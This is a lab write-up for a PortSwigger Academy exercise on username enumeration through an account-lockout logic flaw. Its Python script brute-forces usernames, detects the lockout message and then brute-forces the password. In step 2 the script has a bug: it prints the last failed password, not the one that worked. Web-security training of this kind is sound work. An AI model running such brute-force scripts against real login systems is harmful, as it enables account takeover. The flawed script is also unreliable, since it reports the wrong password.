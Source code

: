 # Lab: Username enumeration via account lock

## Lab

This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

[Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
[Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Hint

None

## Solution

In the previous lab, we knew that the account will be locked if we login fail more than 3 times. This is still kept until this lab.

Step 1: Find out which username is valid by way brute force list of usernames.
```Python
import requests
from tqdm import tqdm
url = 'https://0a26002504a02003c20509c9001800cc.web-security-academy.net/login'

#Step 1:
usernames = open('../shortlist/usernames.txt', 'r').read().splitlines()
usernameValid = ''
for username in tqdm(usernames):
    for i in range(5):
        data = {
            'username': username,
            'password': 'password'
        }
        response = requests.post(url, data=data)
        
        if 'too many incorrect login' in response.text:
            usernameValid = username
            print(username)
            break
    if usernameValid != '':
        break
#Step 2:
passwords = open('../shortlist/passwords.txt', 'r').read().splitlines()
passwordValid = ''
for password in tqdm(passwords):
    data = {
        'username': usernameValid,
        'password': password
    }
    
    response = requests.post(url, data=data)
    if 'Invalid username or password' in response.text or 'too many incorrect login' in response.text:
        passwordValid = password
        continue
    else:
        print(passwordValid)
        break
```

Logic flaw in here is that the username is invalid won't be returned `You have made too many incorrect login attempts. Please try again in 1 minute(s).` Just only the valid username will be returned that string if we login incorrect more than 3 times. With invalid username although we login incorrect more than 3 times, the response is still `Invalid username or password.`

Depending on that we try 5 times (more than 3 times) login with each username. Response will be returned `too many incorrect`, if that username is valid. We save `usernameValid` and break the for loop.

Step 2: Brute-forcing password with usernameValid

Use `usernameValid` brute-force this with list password is provided by the lab.

So that we had solved this lab.




